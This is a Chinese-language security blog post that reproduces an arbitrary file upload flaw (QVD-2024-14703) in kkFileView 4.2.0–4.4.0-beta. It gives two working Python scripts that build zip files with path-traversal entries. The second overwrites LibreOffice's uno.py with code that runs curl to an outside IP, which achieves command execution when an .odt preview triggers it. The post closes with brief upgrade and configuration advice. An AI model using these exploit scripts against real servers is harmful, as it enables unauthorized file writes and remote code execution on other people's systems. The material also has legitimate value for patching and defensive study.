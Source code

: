 #  【漏洞复现】kkFileView任意文件上传漏洞（QVD-2024-14703）   
紫色皓月  皓月的笔记本   2024-05-04 20:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。  
  
0X01   
简介  
  
kkFileView为文件文档在线预览解决方案，该项目使用流行的spring boot搭建，易上手和部署，基本支持主流办公文档的在线预览，如doc,docx,xls,xlsx,ppt,pptx,pdf,txt,zip,rar,图片,视频,音频等等  
  
  
文章参考：  
  
[【搭建合集】kkFileView 4.3.0搭建](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDExMg==&mid=2247484475&idx=1&sn=62d59f62324e355a7d6e89c1a678c5b2&chksm=c3684064f41fc972235ad2379627039e5a021d34090c0c42dfa3b9869e5d3fe9e065f99e60d2&scene=21#wechat_redirect)  
  
  
  
漏洞编号：  
  
QVD-2024-14703  
  
  
影响范围：  
  
4.2.0 <= kkFileView <= 4.4.0-beta  
  
  
复现环境：  
  
kkFileView 4.3.0  
  
  
0X02   
漏洞复现  
```
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'test'
        binary2 = b'test'
        zipFile = zipfile.ZipFile("test.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("test.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../tmp/flag", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPI38xChTosq6pibN1QK8af9y0ASe3efI509t04UPZOcSGsm05dTz3XGNibIToKIdlicWkAqwjfua99rw/640?wx_fmt=jpeg&from=appmsg "")  
  
执行py生成压缩包，将压缩包上传。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPI38xChTosq6pibN1QK8af9y7e6hvOpBjmELQAAEJEZIczWgmxv4veq3DSZwcNWf2dN7qkiaKRswrAg/640?wx_fmt=jpeg&from=appmsg "")  
  
点击预览  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPI38xChTosq6pibN1QK8af9yrRKmJVaRjbeicImTL6XYuzmfBPZhYic8o02pk4TJtGxxXQIZ2Ea70Pcw/640?wx_fmt=jpeg&from=appmsg "")  
  
文件写入成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPI38xChTosq6pibN1QK8af9yicAfuhBjIMA1Zg2cI7DIwic8Ur88fz61fSYk7VYoG1WyEutUwHU6PyVg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
命令执行  
  
注：在linux系统复现成功  
```
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'test'
        binary2 = b'import os\r\nos.system(\'curl http://192.168.20.131:9999/123123\')'
        zipFile = zipfile.ZipFile("test2.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("test2.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e

注：uno.py路径需结合目标服务器的路径更改。
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPI38xChTosq6pibN1QK8af9yzoqtRGQG0arele4Fjv3VTtVRibtIXrDr2Fob2iaMAexp6LkUSBAwABVg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPI38xChTosq6pibN1QK8af9yRKkJXobiboxysZwjogvXhCCEAKbibhLCiaAYLF0stPQ2SibIiarzMXCXy6w/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPI38xChTosq6pibN1QK8af9ysnwEfXia1TC2lmmty9EG1EJrztpywI9Ew782iahygqZDpVtOSHtcic5lw/640?wx_fmt=jpeg&from=appmsg "")  
  
再上传一个.odt后缀的文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPI38xChTosq6pibN1QK8af9yiaMgJPDtqgVY0kiaz0nddhicdDwH8ZaRatVIu1vnUE5v62WUOBQ3JOGWg/640?wx_fmt=jpeg&from=appmsg "")  
  
点击预览执行命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPI38xChTosq6pibN1QK8af9ybKCj1ugfLPfhTia2sRKsiblztIV5mXBHzpwQqH5zlxFgJyr2n7uNj7ZQ/640?wx_fmt=jpeg&from=appmsg "")  
  
在使用odt转pdf时会调用系统的Libreoffice，而此进程会调用库中的uno.py文件，因此可以在该py文件添加内容。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPI38xChTosq6pibN1QK8af9yWbzFAHCWlyEs0VKntIenJcqoBupYx8BKDY5cNZsfZRHCoicJwdiaHiapQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
0X03 修复建议  
  
升级至安全版本及其以上！  
  
临  
时  
解决方案：  
开启  
file.upload.disable=true  
参数，禁用首页的上传文件，关闭演示入口  
  
  
0X04 写在最后  
  
回复“加群”，获取群号。  
  
侵删！  
  
  
